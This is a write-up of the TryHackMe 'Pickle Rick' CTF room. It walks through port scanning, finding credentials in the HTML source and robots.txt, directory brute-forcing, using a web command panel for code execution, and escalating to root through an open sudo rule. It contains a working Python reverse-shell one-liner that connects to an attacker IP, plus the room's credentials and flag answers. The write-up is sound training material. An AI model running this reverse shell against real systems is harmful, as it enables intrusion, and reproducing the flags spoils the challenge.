# Pickle Rick — TryHackMe CTF Writeup

**Platform:** TryHackMe  
**Difficulty:** Easy  
**Category:** Web, Linux Privilege Escalation  

---

## Synopsis

Pickle Rick is a Rick and Morty–themed CTF challenge centred around web application enumeration and exploitation. Initial reconnaissance revealed open HTTP and SSH ports. Passive enumeration of the web application — including HTML source inspection and `robots.txt` — exposed a valid username and a likely password. Directory brute-forcing uncovered a login endpoint, which, when authenticated, presented a command execution panel. This panel was leveraged to obtain a reverse shell, enabling filesystem traversal and recovery of the first two ingredients. A `sudo -l` check revealed that the web application user held unrestricted passwordless `sudo` privileges, allowing immediate privilege escalation to root and recovery of the final ingredient.

---

## 1. Reconnaissance

### 1.1 Port Scanning

An Nmap service scan was run against the target to enumerate open ports and identify running services.

```bash
nmap -sC -sV 10.48.150.152
```



The scan returned two open ports:

|Port|Service|Version|
|---|---|---|
|22|SSH|OpenSSH|
|80|HTTP|Apache|

With a web server exposed on port 80, the immediate focus shifted to the application.

---

## 2. Web Application Enumeration

### 2.1 Homepage Inspection

Navigating to `http://10.48.150.152/` presented a Rick and Morty–themed page. 



While the visual content offered nothing immediately actionable, a review of the HTML page source revealed a developer comment embedding a username directly in the markup.

```
Username: R1ckRul3s
```



> **Note:** Credentials embedded in HTML comments are a classic case of information disclosure. Developers occasionally leave debugging artefacts in source code that are invisible to casual users but trivially readable via browser DevTools or `curl`.

### 2.2 robots.txt

Checking `robots.txt` — a standard first step in web enumeration — returned an unusual and clearly intentional entry:



```
Wubbalubbadubdub
```

Rather than the typical crawler directives, this file contained a single string. Given that a username had already been recovered, this string was noted as a strong candidate for the account password.

### 2.3 Directory Brute-Forcing

With a username and probable password in hand, the next step was to identify authentication endpoints. Gobuster was used to enumerate directories and PHP files across the application.

```bash
gobuster dir -u http://10.48.150.152/ -w /usr/share/wordlists/dirb/common.txt -x .php,.txt
```



Gobuster identified a `login.php` endpoint, confirming the presence of an authentication interface.

---

## 3. Initial Access

### 3.1 Authentication

Navigating to `login.php` presented a standard username/password form.



The credentials discovered during passive enumeration were applied:

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`

Authentication succeeded, redirecting the session to `portal.php`.

### 3.2 Command Execution Panel

The `portal.php` page exposed a command panel — effectively an unauthenticated-after-login remote command execution interface running in the context of the web server user.



Running `ls` via the panel confirmed arbitrary OS command execution and returned a listing of files in the web root, including `Sup3rS3cretPickl3Ingred.txt` and `clue.txt`.



> **Note:** A web-facing command panel of this nature represents a critical Remote Code Execution (RCE) vulnerability. Once authenticated, an attacker has full control over any command the underlying OS user can execute — in this case, that proved to be everything.

### 3.3 Reverse Shell

While the command panel allowed direct command output, a full interactive shell was needed for efficient filesystem traversal. A netcat listener was started on the attacking machine:

```bash
nc -lvnp 9001
```

A Python reverse shell payload was generated via [revshells.com](https://www.revshells.com/) and executed through the portal:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.198.100",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```



A shell was received on the listener. 



The shell was then upgraded to a fully interactive PTY to enable job control and allow tools like `sudo` to function correctly:

```bash
# Spawn PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Stabilise
CTRL+Z
stty raw -echo; fg
export SHELL=/bin/bash; export TERM=screen
stty rows 38 columns 116
reset
```


---

## 4. Post-Exploitation — Ingredient Hunting

### 4.1 First Ingredient

With a stable shell, the web root was enumerated. The file `Sup3rS3cretPickl3Ingred.txt`, spotted earlier via the command panel, was read directly:

```
/var/www/html/Sup3rS3cretPickl3Ingred.txt
```



**Ingredient 1:** `mr. meeseek hair`

### 4.2 Second Ingredient

A `clue.txt` in the same directory hinted at looking around the broader filesystem.



Enumerating home directories led to `/home/rick`, where the second ingredient was found:



**Ingredient 2:** `1 jerry tear`

---

## 5. Privilege Escalation

### 5.1 Sudo Enumeration

With two ingredients recovered, escalating privileges was the next objective. Checking sudo permissions for the current user:

```bash
sudo -l
```



The output revealed an extremely permissive sudo configuration:

```
(ALL) NOPASSWD: ALL
```

The `www-data` (web server) user was permitted to run any command as any user — including root — without supplying a password. This is a severe misconfiguration that trivially collapses the privilege boundary between the web application and the operating system.

### 5.2 Root Access

Escalating to root required a single command:

```bash
sudo su
```



### 5.3 Third Ingredient

The final ingredient was located in the root home directory:



**Ingredient 3:** `fleeb juice`

---

## 6. Summary

|Step|Finding|
|---|---|
|HTML source disclosure|Username: `R1ckRul3s`|
|robots.txt disclosure|Password: `Wubbalubbadubdub`|
|Directory enumeration|Login endpoint: `login.php`|
|Authenticated RCE|Command panel at `portal.php`|
|Reverse shell|`www-data` shell via Python payload|
|Ingredient 1|`mr. meeseek hair` — `/var/www/html/Sup3rS3cretPickl3Ingred.txt`|
|Ingredient 2|`1 jerry tear` — `/home/rick/`|
|Privilege escalation|`(ALL) NOPASSWD: ALL` sudo misconfiguration|
|Ingredient 3|`fleeb juice` — `/root/`|

---

